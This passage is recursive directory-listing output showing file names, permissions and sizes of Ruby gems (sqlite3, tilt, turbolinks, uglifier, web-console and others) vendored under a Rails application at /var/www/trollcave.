-rw-r--r-- 1 rails rails   76 Sep 16  2016 eco.rb
-rw-r--r-- 1 rails rails   76 Sep 16  2016 ejs.rb
-rw-r--r-- 1 rails rails   79 Sep 16  2016 sass.rb
-rw-r--r-- 1 rails rails   91 Sep 16  2016 uglifier.rb
-rw-r--r-- 1 rails rails   87 Sep 16  2016 yui.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-3.4.0/lib/sprockets/cache:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.9K Sep 16  2016 file_store.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 memory_store.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 null_store.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-rails-2.3.3:
total 24K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 6.9K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-rails-2.3.3/lib:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 sprockets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-rails-2.3.3/lib/sprockets:
total 24K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails   95 Sep 16  2016 rails.rb
-rw-r--r-- 1 rails rails 5.5K Sep 16  2016 railtie.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sprockets-rails-2.3.3/lib/sprockets/rails:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 7.5K Sep 16  2016 helper.rb
-rw-r--r-- 1 rails rails  921 Sep 16  2016 legacy_asset_tag_helper.rb
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 legacy_asset_url_helper.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 task.rb
-rw-r--r-- 1 rails rails   64 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11:
total 96K
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails 2.3K Sep 16  2016 API_CHANGES.rdoc
-rw-rw-r--  1 rails rails 3.0K Sep 16  2016 ChangeLog.cvs
-rw-rw-r--  1 rails rails  11K Sep 16  2016 CHANGELOG.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 faq
-rw-rw-r--  1 rails rails  570 Sep 16  2016 Gemfile
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-rw-r--  1 rails rails 1.5K Sep 16  2016 LICENSE
-rw-rw-r--  1 rails rails 1.1K Sep 16  2016 Manifest.txt
-rw-rw-r--  1 rails rails  198 Sep 16  2016 Rakefile
-rw-rw-r--  1 rails rails 2.7K Sep 16  2016 README.rdoc
-rw-rw-r--  1 rails rails  28K Sep 16  2016 setup.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 tasks
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sqlite3

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/ext/sqlite3:
total 480K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 4.4K Sep 16  2016 backup.c
-rw-rw-r-- 1 rails rails  320 Sep 16  2016 backup.h
-rw-rw-r-- 1 rails rails  30K Sep 16  2016 backup.o
-rw-rw-r-- 1 rails rails  21K Sep 16  2016 database.c
-rw-rw-r-- 1 rails rails  247 Sep 16  2016 database.h
-rw-rw-r-- 1 rails rails 123K Sep 16  2016 database.o
-rw-rw-r-- 1 rails rails 2.7K Sep 16  2016 exception.c
-rw-rw-r-- 1 rails rails  181 Sep 16  2016 exception.h
-rw-rw-r-- 1 rails rails  16K Sep 16  2016 exception.o
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 extconf.rb
-rw-rw-r-- 1 rails rails 8.2K Sep 16  2016 Makefile
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.-.sqlite3.time
-rw-rw-r-- 1 rails rails 2.2K Sep 16  2016 sqlite3.c
-rwxrwxr-x 1 rails rails 119K Sep 16  2016 sqlite3_native.so
-rw-rw-r-- 1 rails rails  16K Sep 16  2016 sqlite3.o
-rw-rw-r-- 1 rails rails 1.2K Sep 16  2016 sqlite3_ruby.h
-rw-rw-r-- 1 rails rails  12K Sep 16  2016 statement.c
-rw-rw-r-- 1 rails rails  289 Sep 16  2016 statement.h
-rw-rw-r-- 1 rails rails  74K Sep 16  2016 statement.o

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/faq:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 3.1K Sep 16  2016 faq.rb
-rw-rw-r-- 1 rails rails  12K Sep 16  2016 faq.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sqlite3
-rw-rw-r-- 1 rails rails  249 Sep 16  2016 sqlite3.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/lib/sqlite3:
total 192K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 constants.rb
-rw-rw-r-- 1 rails rails  20K Sep 16  2016 database.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 errors.rb
-rw-rw-r-- 1 rails rails 7.6K Sep 16  2016 pragmas.rb
-rw-rw-r-- 1 rails rails 5.7K Sep 16  2016 resultset.rb
-rwxr-xr-x 1 rails rails 119K Sep 16  2016 sqlite3_native.so
-rw-rw-r-- 1 rails rails 4.0K Sep 16  2016 statement.rb
-rw-rw-r-- 1 rails rails 4.1K Sep 16  2016 translator.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 value.rb
-rw-rw-r-- 1 rails rails  459 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/tasks:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  188 Sep 16  2016 faq.rake
-rw-rw-r-- 1 rails rails 1006 Sep 16  2016 gem.rake
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 native.rake
-rw-rw-r-- 1 rails rails 3.1K Sep 16  2016 vendor_sqlite3.rake

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/sqlite3-1.3.11/test:
total 108K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  333 Sep 16  2016 helper.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 test_backup.rb
-rw-rw-r-- 1 rails rails 2.1K Sep 16  2016 test_collation.rb
-rw-rw-r-- 1 rails rails 9.9K Sep 16  2016 test_database.rb
-rw-rw-r-- 1 rails rails  789 Sep 16  2016 test_database_readonly.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 test_deprecated.rb
-rw-rw-r-- 1 rails rails 4.8K Sep 16  2016 test_encoding.rb
-rw-rw-r-- 1 rails rails  715 Sep 16  2016 test_integration_open_close.rb
-rw-rw-r-- 1 rails rails 2.3K Sep 16  2016 test_integration_pending.rb
-rw-rw-r-- 1 rails rails  16K Sep 16  2016 test_integration.rb
-rw-rw-r-- 1 rails rails 4.1K Sep 16  2016 test_integration_resultset.rb
-rw-rw-r-- 1 rails rails 5.0K Sep 16  2016 test_integration_statement.rb
-rw-rw-r-- 1 rails rails  978 Sep 16  2016 test_result_set.rb
-rw-rw-r-- 1 rails rails  155 Sep 16  2016 test_sqlite3.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 test_statement_execute.rb
-rw-rw-r-- 1 rails rails 6.8K Sep 16  2016 test_statement.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1:
total 60K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 COPYING
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 docs
-rw-r--r--  1 rails rails  804 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails  302 Sep 16  2016 HACKING
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 2.7K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 8.6K Sep 16  2016 README.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails 3.0K Sep 16  2016 tilt.gemspec

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 3.0K Sep 16  2016 tilt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/docs:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  136 Sep 16  2016 common.css
-rw-r--r-- 1 rails rails  16K Sep 16  2016 TEMPLATES.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/lib:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 tilt
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 tilt.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/lib/tilt:
total 136K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  674 Sep 16  2016 asciidoc.rb
-rw-r--r-- 1 rails rails  451 Sep 16  2016 bluecloth.rb
-rw-r--r-- 1 rails rails  733 Sep 16  2016 builder.rb
-rw-r--r-- 1 rails rails  934 Sep 16  2016 coffee.rb
-rw-r--r-- 1 rails rails  510 Sep 16  2016 creole.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 csv.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 erb.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 erubis.rb
-rw-r--r-- 1 rails rails  590 Sep 16  2016 etanni.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 haml.rb
-rw-r--r-- 1 rails rails  659 Sep 16  2016 kramdown.rb
-rw-r--r-- 1 rails rails  800 Sep 16  2016 less.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 liquid.rb
-rw-r--r-- 1 rails rails 8.4K Sep 16  2016 mapping.rb
-rw-r--r-- 1 rails rails  971 Sep 16  2016 markaby.rb
-rw-r--r-- 1 rails rails  386 Sep 16  2016 maruku.rb
-rw-r--r-- 1 rails rails  835 Sep 16  2016 nokogiri.rb
-rw-r--r-- 1 rails rails  314 Sep 16  2016 plain.rb
-rw-r--r-- 1 rails rails  976 Sep 16  2016 radius.rb
-rw-r--r-- 1 rails rails  904 Sep 16  2016 rdiscount.rb
-rw-r--r-- 1 rails rails  863 Sep 16  2016 rdoc.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 redcarpet.rb
-rw-r--r-- 1 rails rails  452 Sep 16  2016 redcloth.rb
-rw-r--r-- 1 rails rails  855 Sep 16  2016 sass.rb
-rw-r--r-- 1 rails rails  471 Sep 16  2016 string.rb
-rw-r--r-- 1 rails rails 9.2K Sep 16  2016 template.rb
-rw-r--r-- 1 rails rails  453 Sep 16  2016 wikicloth.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 yajl.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/test:
total 184K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 markaby
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_helper.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 tilt_asciidoctor_test.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 tilt_blueclothtemplate_test.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 tilt_buildertemplate_test.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 tilt_cache_test.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 tilt_coffeescripttemplate_test.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 tilt_compilesite_test.rb
-rw-r--r-- 1 rails rails  696 Sep 16  2016 tilt_creoletemplate_test.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 tilt_csv_test.rb
-rw-r--r-- 1 rails rails 7.4K Sep 16  2016 tilt_erbtemplate_test.rb
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 tilt_erubistemplate_test.rb
-rw-r--r-- 1 rails rails 5.3K Sep 16  2016 tilt_etannitemplate_test.rb
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 tilt_hamltemplate_test.rb
-rw-r--r-- 1 rails rails  633 Sep 16  2016 tilt_kramdown_test.rb
-rw-r--r-- 1 rails rails   21 Sep 16  2016 tilt_lesstemplate_test.less
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 tilt_lesstemplate_test.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 tilt_liquidtemplate_test.rb
-rw-r--r-- 1 rails rails 5.5K Sep 16  2016 tilt_mapping_test.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 tilt_markaby_test.rb
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 tilt_markdown_test.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 tilt_marukutemplate_test.rb
-rw-r--r-- 1 rails rails  936 Sep 16  2016 tilt_metadata_test.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 tilt_nokogiritemplate_test.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 tilt_radiustemplate_test.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 tilt_rdiscounttemplate_test.rb
-rw-r--r-- 1 rails rails  822 Sep 16  2016 tilt_rdoctemplate_test.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 tilt_redcarpettemplate_test.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 tilt_redclothtemplate_test.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 tilt_sasstemplate_test.rb
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 tilt_stringtemplate_test.rb
-rw-r--r-- 1 rails rails 9.1K Sep 16  2016 tilt_template_test.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 tilt_test.rb
-rw-r--r-- 1 rails rails  964 Sep 16  2016 tilt_wikiclothtemplate_test.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 tilt_yajltemplate_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/tilt-2.0.1/test/markaby:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    7 Sep 16  2016 locals.mab
-rw-r--r-- 1 rails rails   27 Sep 16  2016 markaby.mab
-rw-r--r-- 1 rails rails   13 Sep 16  2016 markaby_other_static.mab
-rw-r--r-- 1 rails rails   11 Sep 16  2016 render_twice.mab
-rw-r--r-- 1 rails rails    7 Sep 16  2016 scope.mab
-rw-r--r-- 1 rails rails   19 Sep 16  2016 yielding.mab

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3:
total 36K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails  14K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3/lib:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 turbolinks
-rw-r--r-- 1 rails rails 1007 Sep 16  2016 turbolinks.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3/lib/assets:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 javascripts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3/lib/assets/javascripts:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  17K Sep 16  2016 turbolinks.js.coffee

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3/lib/turbolinks:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  436 Sep 16  2016 cookies.rb
-rw-r--r-- 1 rails rails  482 Sep 16  2016 redirection.rb
-rw-r--r-- 1 rails rails   42 Sep 16  2016 version.rb
-rw-r--r-- 1 rails rails  711 Sep 16  2016 x_domain_blocker.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 xhr_headers.rb
-rw-r--r-- 1 rails rails  521 Sep 16  2016 xhr_url_for.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/turbolinks-2.5.3/test:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 config.ru
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 dummy.gif
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 index.html
-rw-r--r-- 1 rails rails   88 Sep 16  2016 manifest.appcache
-rw-r--r-- 1 rails rails  475 Sep 16  2016 offline.html
-rw-r--r-- 1 rails rails  616 Sep 16  2016 other.html
-rw-r--r-- 1 rails rails  318 Sep 16  2016 redirect1.html
-rw-r--r-- 1 rails rails  261 Sep 16  2016 redirect2.html
-rw-r--r-- 1 rails rails  442 Sep 16  2016 reload.html
-rw-r--r-- 1 rails rails  616 Sep 16  2016 withoutextension

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/uglifier-2.7.2:
total 76K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 2.0K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 2.1K Sep 16  2016 CONTRIBUTING.md
-rw-r--r--  1 rails rails   55 Sep 16  2016 .document
-rw-r--r--  1 rails rails  156 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails  790 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails  208 Sep 16  2016 .gitmodules
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE.txt
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 6.0K Sep 16  2016 README.md
-rw-r--r--  1 rails rails    8 Sep 16  2016 .rspec
-rw-r--r--  1 rails rails  403 Sep 16  2016 .rubocop.yml
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 spec
-rw-r--r--  1 rails rails  496 Sep 16  2016 .travis.yml
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 uglifier.gemspec

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/uglifier-2.7.2/gemfiles:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   94 Sep 16  2016 alaska
-rw-r--r-- 1 rails rails   72 Sep 16  2016 rubyracer
-rw-r--r-- 1 rails rails   73 Sep 16  2016 rubyrhino

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/uglifier-2.7.2/lib:
total 308K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 8.8K Sep 16  2016 es5.js
-rw-r--r-- 1 rails rails 4.7K Sep 16  2016 split.js
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 uglifier
-rw-r--r-- 1 rails rails  11K Sep 16  2016 uglifier.rb
-rw-r--r-- 1 rails rails 264K Sep 16  2016 uglify.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/uglifier-2.7.2/lib/uglifier:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   72 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/uglifier-2.7.2/spec:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 source_map_spec.rb
-rw-r--r-- 1 rails rails  529 Sep 16  2016 spec_helper.rb
-rw-r--r-- 1 rails rails 9.1K Sep 16  2016 uglifier_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1:
total 32K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 2.8K Sep 16  2016 CHANGELOG.markdown
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 6.4K Sep 16  2016 README.markdown

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1/lib:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 web_console
-rw-r--r-- 1 rails rails  597 Sep 16  2016 web_console.rb
-rw-r--r-- 1 rails rails   22 Sep 16  2016 web-console.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1/lib/web_console:
total 72K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  225 Sep 16  2016 errors.rb
-rw-r--r-- 1 rails rails  966 Sep 16  2016 evaluator.rb
-rw-r--r-- 1 rails rails  847 Sep 16  2016 extensions.rb
-rw-r--r-- 1 rails rails  754 Sep 16  2016 helper.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 integration
-rw-r--r-- 1 rails rails  186 Sep 16  2016 integration.rb
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 middleware.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 request.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 session.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 template.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 templates
-rw-r--r-- 1 rails rails  207 Sep 16  2016 tracer.rb
-rw-r--r-- 1 rails rails   42 Sep 16  2016 version.rb
-rw-r--r-- 1 rails rails 1002 Sep 16  2016 whiny_request.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 whitelist.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1/lib/web_console/integration:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 cruby.rb
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 jruby.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 rubinius.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1/lib/web_console/templates:
total 56K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  15K Sep 16  2016 console.js.erb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 error_page.js.erb
-rw-r--r-- 1 rails rails  170 Sep 16  2016 index.html.erb
-rw-r--r-- 1 rails rails  249 Sep 16  2016 _inner_console_markup.html.erb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 layouts
-rw-r--r-- 1 rails rails   36 Sep 16  2016 main.js.erb
-rw-r--r-- 1 rails rails  121 Sep 16  2016 _markup.html.erb
-rw-r--r-- 1 rails rails   86 Sep 16  2016 _prompt_box_markup.html.erb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 style.css.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/web-console-2.2.1/lib/web_console/templates/layouts:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   17 Sep 16  2016 inlined_string.erb
-rw-r--r-- 1 rails rails   86 Sep 16  2016 javascript.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7:
total 24K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 README.md
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 spec

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 will_paginate
-rw-r--r-- 1 rails rails  683 Sep 16  2016 will_paginate.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/will_paginate-3.0.7/lib/will_paginate:
total 80K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 active_record.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 array.rb
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 collection.rb
-rw-r--r-- 1 rails rails  737 Sep 16  2016 core_ext.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 data_mapper.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 deprecation.rb
